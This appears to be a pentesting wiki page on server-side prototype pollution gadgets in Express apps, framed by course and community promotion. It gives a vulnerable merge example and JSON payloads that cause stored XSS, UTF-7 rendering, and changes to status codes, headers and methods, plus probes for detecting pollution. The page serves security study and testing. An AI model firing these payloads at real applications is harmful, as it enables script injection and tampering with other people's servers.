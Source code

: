 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

## Serve XSS responses

**For further details** [**take a look to the original reserach**](https://portswigger.net/research/server-side-prototype-pollution)

### Change JSON content-type to HTML

In an Express app using a **JSON content type response** and reflecting a JSON:

```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
    _.merge({}, req.body);
   res.send(req.body);
});
```

In these cases XSS isn't normally possible with a JSON content type. However, with prototype pollution we can **confuse Express to serve up an HTML response.** This vulnerability relies on the application using **`res.send(obj)`** and using the body parser with the application/json content type.

```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```

By **polluting** **`body`** and **`_body`** properties, it's possible to cause **Express to serve up the HTML content type** and reflect the `_body` property, resulting in stored XSS.

### Render UTF7

It's possible to make express **render UTF-7 content with**:

```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```

## Safe Scanning Techinques

### JSON spaces

The following PP will make attributes inside a JSON to have an extra space which won't break the functionality:

```json
{"__proto__":{"json spaces": " "}}
```

Then a reflected JSON will looks like:

```json
{"foo":  "bar"} -- Note the extra space
```

### Exposed Headers

The following PP gadget will make the server send back the HTTP header: **`Access-Control-Expose_headers: foo`**

```json
{"__proto__":{"exposedHeaders":["foo"]}}
```

It requires the **CORS module to be installed**

### **OPTIONS Method**

With the following payload, it's possible to **hide a method from an OPTIONS response**:

```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```

### **Status**

It's possible to change the **returned status code** using the following PP payload:

```json
{"__proto__":{"status":510}}
```

### Error

When you assign to a prototype with a primitive such as a string, it produces a **no-op operation since the prototype has to be an object**. If you attempt to assign a prototype object to the `Object.prototype` itself, this will **throw an exception**. We can use these two behaviours to **detect if prototype pollution was successful**:

```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```

### Reflected Value

When an application includes an object in its response, creating an attribute with an **unusual name alongside `__proto__`** can be insightful. Specifically, if **only the unusual attribute is returned** in the response, this could indicate the application's vulnerability:

```json
{"unusualName":"value","__proto__":"test"}
```

Moreover, in scenarios where a library like Lodash is employed, setting a property both via prototype pollution (PP) and directly inside the object offers another diagnostic approach. If such a property is omitted from the response, it suggests that Lodash is verifying the existence of the property in the target object before merging:

```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```

## Misc

### Allow Dots

There is an option in Express that allows you to **create objects from query string parameters**.\
You could definitely use it in a bug **chain** to exploit a **prototype pollution vulnerability**.

```json
{"__proto__":{"allowDots":true}}
```

**`?foo.bar=baz` create an object in Node.**

## References

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

